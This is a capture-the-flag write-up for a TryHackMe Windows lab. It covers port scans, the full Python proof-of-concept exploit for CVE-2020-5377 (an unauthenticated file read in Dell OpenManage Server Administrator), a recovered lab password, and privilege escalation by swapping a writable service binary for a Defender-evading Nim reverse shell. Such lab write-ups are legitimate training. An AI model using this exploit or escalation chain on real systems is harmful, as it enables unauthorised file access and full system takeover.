







<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows, **Difficulty:** Medium, **Host:** `hacksmartersec.thm`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Ports 21 (FTP), 80, 1311 (**Dell OpenManage Server Administrator**), 3389.
2. **CVE-2020-5377**, DellOM OMSA arbitrary file read (register a bogus `VULNERABILITY:CVE-2020-5377:plz` session, then read files). Read the web / user config to recover **`tyler : IAmA1337h4x0randIkn0wit!`** (also findable via FTP `id_rsa`).
3. SSH as `tyler`.
4. `C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe` is a **writable service binary**. Build a **Nim reverse shell** (Defender-evasive), stop the service, replace the exe, restart → SYSTEM.

</div>

<div class="callout callout-key">

**Credentials**

- `tyler` : `IAmA1337h4x0randIkn0wit!`

</div>

---

## Full Walkthrough

Rustscan scan

```bash
Open 10.10.46.163:22
Open 10.10.46.163:21
Open 10.10.46.163:80
Open 10.10.46.163:1311
Open 10.10.46.163:3389
Open 10.10.46.163:7680
```


Nmap scan 1

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-02 19:23 EDT
NSE: DEPRECATION WARNING: bin.lua is deprecated. Please use Lua 5.3 string.pack
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 19:23
NSE Timing: About 83.33% done; ETC: 19:24 (0:00:06 remaining)
Completed NSE at 19:24, 34.91s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 19:24
Completed NSE at 19:24, 0.00s elapsed
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Initiating Connect Scan at 19:24
Scanning hacksmartersec.thm (10.10.46.163) [3 ports]
Discovered open port 3389/tcp on 10.10.46.163
Discovered open port 1311/tcp on 10.10.46.163
Completed Connect Scan at 19:24, 1.84s elapsed (3 total ports)
Initiating Service scan at 19:24
Scanning 2 services on hacksmartersec.thm (10.10.46.163)
Completed Service scan at 19:24, 33.06s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.46.163.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 19:24
NSE: [firewall-bypass 10.10.46.163] lacks privileges.
NSE Timing: About 99.62% done; ETC: 19:25 (0:00:00 remaining)
Completed NSE at 19:25, 31.48s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 19:25
NSE: [tls-ticketbleed 10.10.46.163:3389] Not running due to lack of privileges.
Completed NSE at 19:25, 4.53s elapsed
Nmap scan report for hacksmartersec.thm (10.10.46.163)
Host is up, received user-set (0.10s latency).
Scanned at 2024-04-02 19:24:23 EDT for 71s

PORT     STATE    SERVICE       REASON      VERSION
1311/tcp open     ssl/rxmon?    syn-ack
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Tue, 02 Apr 2024 23:24:39 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage™</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|     <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Tue, 02 Apr 2024 23:24:45 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage™</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|_    <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|_sslv2-drown: 
3389/tcp open     ms-wbt-server syn-ack     Microsoft Terminal Services
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
7680/tcp filtered pando-pub     no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1311-TCP:V=7.80%T=SSL%I=7%D=4/2%Time=660C93B7%P=x86_64-pc-linux-gnu
SF:%r(GetRequest,1089,"HTTP/1\.1\x20200\x20\r\nStrict-Transport-Security:\
SF:x20max-age=0\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nvary:\x20acce
SF:pt-encoding\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDate:\x20Tue
SF:,\x2002\x20Apr\x202024\x2023:24:39\x20GMT\r\nConnection:\x20close\r\n\r
SF:\n<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Stri
SF:ct//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-strict\.dtd\">\r
SF:\n<html>\r\n<head>\r\n<META\x20http-equiv=\"Content-Type\"\x20content=\
SF:"text/html;\x20charset=UTF-8\">\r\n<title>OpenManage™</title>\r\n
SF:<link\x20type=\"text/css\"\x20rel=\"stylesheet\"\x20href=\"/oma/css/log
SF:inmaster\.css\">\r\n<style\x20type=\"text/css\"></style>\r\n<script\x20
SF:type=\"text/javascript\"\x20src=\"/oma/js/prototype\.js\"\x20language=\
SF:"javascript\"></script><script\x20type=\"text/javascript\"\x20src=\"/om
SF:a/js/gnavbar\.js\"\x20language=\"javascript\"></script><script\x20type=
SF:\"text/javascript\"\x20src=\"/oma/js/Clarity\.js\"\x20language=\"javasc
SF:ript\"></script><script\x20language=\"javascript\">\r\n\x20")%r(HTTPOpt
SF:ions,1089,"HTTP/1\.1\x20200\x20\r\nStrict-Transport-Security:\x20max-ag
SF:e=0\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Content-Type-Options:\x20nos
SF:niff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nvary:\x20accept-encodi
SF:ng\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDate:\x20Tue,\x2002\x
SF:20Apr\x202024\x2023:24:45\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTY
SF:PE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Strict//EN\"\
SF:x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-strict\.dtd\">\r\n<html>\
SF:r\n<head>\r\n<META\x20http-equiv=\"Content-Type\"\x20content=\"text/htm
SF:l;\x20charset=UTF-8\">\r\n<title>OpenManage™</title>\r\n<link\x20
SF:type=\"text/css\"\x20rel=\"stylesheet\"\x20href=\"/oma/css/loginmaster\
SF:.css\">\r\n<style\x20type=\"text/css\"></style>\r\n<script\x20type=\"te
SF:xt/javascript\"\x20src=\"/oma/js/prototype\.js\"\x20language=\"javascri
SF:pt\"></script><script\x20type=\"text/javascript\"\x20src=\"/oma/js/gnav
SF:bar\.js\"\x20language=\"javascript\"></script><script\x20type=\"text/ja
SF:vascript\"\x20src=\"/oma/js/Clarity\.js\"\x20language=\"javascript\"></
SF:script><script\x20language=\"javascript\">\r\n\x20");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap scan 2

```bash
NSE: [tls-ticketbleed 10.10.46.163:3389] Not running due to lack of privileges.
Completed NSE at 19:30, 3.36s elapsed
Nmap scan report for hacksmartersec.thm (10.10.46.163)
Host is up, received user-set (0.099s latency).
Scanned at 2024-04-02 19:24:56 EDT for 358s
Not shown: 995 filtered ports
Reason: 995 no-responses
PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack Microsoft ftpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
22/tcp   open  ssh           syn-ack OpenSSH for_Windows_7.7 (protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=hacksmartersec.thm
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://hacksmartersec.thm:80/contact.html
|     Form id: 
|_    Form action: 
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-fileupload-exploiter: 
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|     Couldn't find a file-type field.
|   
|_    Couldn't find a file-type field.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
1311/tcp open  ssl/rxmon?    syn-ack
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Tue, 02 Apr 2024 23:25:17 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage™</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|     <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Tue, 02 Apr 2024 23:25:23 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage™</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|_    <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|_sslv2-drown: 
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_sslv2-drown: 
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1311-TCP:V=7.80%T=SSL%I=7%D=4/2%Time=660C93DD%P=x86_64-pc-linux-gnu
SF:%r(GetRequest,1089,"HTTP/1\.1\x20200\x20\r\nStrict-Transport-Security:\
SF:x20max-age=0\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nvary:\x20acce
SF:pt-encoding\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDate:\x20Tue
SF:,\x2002\x20Apr\x202024\x2023:25:17\x20GMT\r\nConnection:\x20close\r\n\r
SF:\n<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Stri
SF:ct//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-strict\.dtd\">\r
SF:\n<html>\r\n<head>\r\n<META\x20http-equiv=\"Content-Type\"\x20content=\
SF:"text/html;\x20charset=UTF-8\">\r\n<title>OpenManage™</title>\r\n
SF:<link\x20type=\"text/css\"\x20rel=\"stylesheet\"\x20href=\"/oma/css/log
SF:inmaster\.css\">\r\n<style\x20type=\"text/css\"></style>\r\n<script\x20
SF:type=\"text/javascript\"\x20src=\"/oma/js/prototype\.js\"\x20language=\
SF:"javascript\"></script><script\x20type=\"text/javascript\"\x20src=\"/om
SF:a/js/gnavbar\.js\"\x20language=\"javascript\"></script><script\x20type=
SF:\"text/javascript\"\x20src=\"/oma/js/Clarity\.js\"\x20language=\"javasc
SF:ript\"></script><script\x20language=\"javascript\">\r\n\x20")%r(HTTPOpt
SF:ions,1089,"HTTP/1\.1\x20200\x20\r\nStrict-Transport-Security:\x20max-ag
SF:e=0\r\nX-Frame-Options:\x20SAMEORIGIN\r\nX-Content-Type-Options:\x20nos
SF:niff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nvary:\x20accept-encodi
SF:ng\r\nContent-Type:\x20text/html;charset=UTF-8\r\nDate:\x20Tue,\x2002\x
SF:20Apr\x202024\x2023:25:23\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTY
SF:PE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.0\x20Strict//EN\"\
SF:x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-strict\.dtd\">\r\n<html>\
SF:r\n<head>\r\n<META\x20http-equiv=\"Content-Type\"\x20content=\"text/htm
SF:l;\x20charset=UTF-8\">\r\n<title>OpenManage™</title>\r\n<link\x20
SF:type=\"text/css\"\x20rel=\"stylesheet\"\x20href=\"/oma/css/loginmaster\
SF:.css\">\r\n<style\x20type=\"text/css\"></style>\r\n<script\x20type=\"te
SF:xt/javascript\"\x20src=\"/oma/js/prototype\.js\"\x20language=\"javascri
SF:pt\"></script><script\x20type=\"text/javascript\"\x20src=\"/oma/js/gnav
SF:bar\.js\"\x20language=\"javascript\"></script><script\x20type=\"text/ja
SF:vascript\"\x20src=\"/oma/js/Clarity\.js\"\x20language=\"javascript\"></
SF:script><script\x20language=\"javascript\">\r\n\x20");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

On port 1311 there seems to be a server called "Dell emc openmanage".

After doing some research we see that this is vulnerable to a file read vulnerability which is followed by an authentication bypass.

Here isthe exploit code.

```py
# Exploit Title: Dell OpenManage Server Administrator 9.4.0.0 - Arbitrary File Read
# Date: 4/27/2020
# Exploit Author: Rhino Security Labs
# Version: <= 9.4
# Description: Dell EMC OpenManage Server Administrator (OMSA) versions 9.4 and prior contain multiple path traversal vulnerabilities. An unauthenticated remote attacker could potentially exploit these vulnerabilities by sending a crafted Web API request containing directory traversal character sequences to gain file system access on the compromised management station.
# CVE: CVE-2020-5377

# This is a proof of concept for CVE-2020-5377, an arbitrary file read in Dell OpenManage Administrator
# Proof of concept written by: David Yesland @daveysec with Rhino Security Labs
# More information can be found here: 
# A patch for this issue can be found here: 
# https://www.dell.com/support/article/en-us/sln322304/dsa-2020-172-dell-emc-openmanage-server-administrator-omsa-path-traversal-vulnerability

from xml.sax.saxutils import escape
import BaseHTTPServer
import requests
import thread
import ssl
import sys
import re
import os

import urllib3
urllib3.disable_warnings()

if len(sys.argv) < 3:
	print 'Usage python auth_bypass.py <yourIP> <targetIP>:<targetPort>'
	exit()

#This XML to imitate a Dell OMSA remote system comes from https://www.exploit-db.com/exploits/39909
#Also check out https://github.com/hantwister/FakeDellOM
class MyHandler(BaseHTTPServer.BaseHTTPRequestHandler):
	def do_POST(s):
		data = ''
		content_len = int(s.headers.getheader('content-length', 0))
		post_body = s.rfile.read(content_len)
		s.send_response(200)
		s.send_header("Content-type", "application/soap+xml;charset=UTF-8")
		s.end_headers()
		if "__00omacmd=getuserrightsonly" in post_body:
			data = escape("<SMStatus>0</SMStatus><UserRightsMask>458759</UserRightsMask>")
		if "__00omacmd=getaboutinfo " in post_body:
			data = escape("<ProductVersion>6.0.3</ProductVersion>")
		if data:
			requid = re.findall('>uuid:(.*?)<',post_body)[0]
			s.wfile.write('''<?xml version="1.0" encoding="UTF-8"?>
							<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:wsman="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:n1="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/DCIM_OEM_DataAccessModule">
							  <s:Header>
							    <wsa:To>http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</wsa:To>
							    <wsa:RelatesTo>uuid:'''+requid+'''</wsa:RelatesTo>
							    <wsa:MessageID>0d70cce2-05b9-45bb-b219-4fb81efba639</wsa:MessageID>
							  </s:Header>
							  <s:Body>
							    <n1:SendCmd_OUTPUT>
							      <n1:ResultCode>0</n1:ResultCode>
							      <n1:ReturnValue>'''+data+'''</n1:ReturnValue>
							    </n1:SendCmd_OUTPUT>
							  </s:Body>
							</s:Envelope>''')

		else:
			s.wfile.write('''<?xml version="1.0" encoding="UTF-8"?><s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:wsmid="http://schemas.dmtf.org/wbem/wsman/identity/1/wsmanidentity.xsd"><s:Header/><s:Body><wsmid:IdentifyResponse><wsmid:ProtocolVersion>http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd</wsmid:ProtocolVersion><wsmid:ProductVendor>Fake Dell Open Manage Server Node</wsmid:ProductVendor><wsmid:ProductVersion>1.0</wsmid:ProductVersion></wsmid:IdentifyResponse></s:Body></s:Envelope>''')

	def log_message(self, format, *args):
		return

createdCert = False
if not os.path.isfile('./server.pem'):
	print '[-] No server.pem certifcate file found. Generating one...'
	os.system('openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes -subj "/C=NO/ST=NONE/L=NONE/O=NONE/OU=NONE/CN=NONE.com"')
	createdCert = True

def startServer():
	server_class = BaseHTTPServer.HTTPServer
	httpd = httpd = server_class(('0.0.0.0', 443), MyHandler)
	httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
	httpd.serve_forever()

thread.start_new_thread(startServer,())

myIP = sys.argv[1]
target = sys.argv[2]

def bypassAuth():
	values = {}
	url = "https://{}/LoginServlet?flag=true&managedws=false".format(target)
	data = {"manuallogin": "true", "targetmachine": myIP, "user": "VULNERABILITY:CVE-2020-5377", "password": "plz", "application": "omsa", "ignorecertificate": "1"}
	r = requests.post(url, data=data, verify=False, allow_redirects=False)
	cookieheader = r.headers['Set-Cookie']
	sessionid = re.findall('JSESSIONID=(.*?);',cookieheader)
	pathid = re.findall('Path=/(.*?);',cookieheader)
	values['sessionid'] = sessionid[0]
	values['pathid'] = pathid[0]
	return values

ids = bypassAuth()
sessionid = ids['sessionid']
pathid = ids['pathid']

print "Session: "+sessionid
print "VID: "+pathid

def readFile(target,sessid,pathid):
    while True:
        file = raw_input('file > ')
        url = "https://{}/{}/DownloadServlet?help=Certificate&app=oma&vid={}&file={}".format(target,pathid,pathid,file)
        cookies = {"JSESSIONID": sessid}
        r = requests.get(url, cookies=cookies, verify=False)
        print 'Reading contents of {}:\n{}'.format(file,r.content)

def getPath(path):
	if path.lower().startswith('c:\\'):
		path = path[2:]
        path = path.replace('\\','/')
        return path

readFile(target,sessionid,pathid)         
```

here from the code we can see that this registers a user with the following Credentials `VULNERABILITY:CVE-2020-5377:plz` I then had entered that into the login and put my machine `IP` address for the hostname and or IP address and was able to login under administrator.







With these credentials we can ssh.

`tyler:IAmA1337h4x0randIkn0wit!`



once we were in I had changed my shell to powershell and used this to check for privesc methods.

[Privesc Check](https://github.com/itm4n/PrivescCheck/tree/master)

```powershell
PS C:\Users\tyler> . .\power.ps1; Invoke-PrivescCheck -Extended 
```


and we have a hit!

We used this [repo](https://github.com/Sn1r/Nim-Reverse-Shell/blob/main/rev_shell.nim) to generate a nim shell to bypass defender.

With our permissions we did the following.

We stopped print spoofer.

```
sc stop spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x0


tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>sc query spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```

after we saw that it was stopped we put our shell in replace of `spoofer-scheduler.exe` started it again and got root shell.




